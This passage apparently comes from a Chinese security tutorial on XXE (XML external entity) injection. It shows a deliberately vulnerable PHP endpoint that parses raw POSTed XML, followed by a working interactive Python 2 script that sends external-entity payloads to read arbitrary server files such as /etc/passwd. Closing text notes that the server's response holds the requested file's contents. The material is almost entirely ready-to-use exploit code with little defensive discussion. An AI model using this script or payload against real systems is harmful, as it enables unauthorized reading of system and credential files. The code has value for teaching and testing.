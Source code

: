 ```plain
<?php
$data = file_get_contents('php://input');
$xml = simplexml_load_string($data);
echo $xml->name;
?>
```

读取文件.py

```plain
#!/usr/bin/python
# -*- coding:utf-8 -*-
import urllib2

if __name__ == '__main__':

    print u'输入要访问的地址，如http://127.0.0.1/xml/xxe2.php'
    url = raw_input()
    count=1
    while count==1:
        print u'输入要读取的文件，如file:///etc/passwd'
        payload = raw_input()
        headers = {'Content-type': 'text/xml'}
        xml = '<?xml version="1.0" encoding="utf-8"?><!DOCTYPE xxe [<!ELEMENT name ANY ><!ENTITY xxe SYSTEM "' + payload + '" >]><root><name>&xxe;</name></root>'
        req = urllib2.Request(url = url,headers = headers, data = xml)
        res_data = urllib2.urlopen(req)
        res = res_data.read()
        print res
```

[![](assets/1698897471-6d5d8b8d8d7e911177653d2aaf2dbe68.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191202152024-3548448c-14d4-1.png)  
通过 urllib2 的 request 方法用 POST 方式向目标地址发送 XML 数据，返回的数据即为服务器相关文件内容。
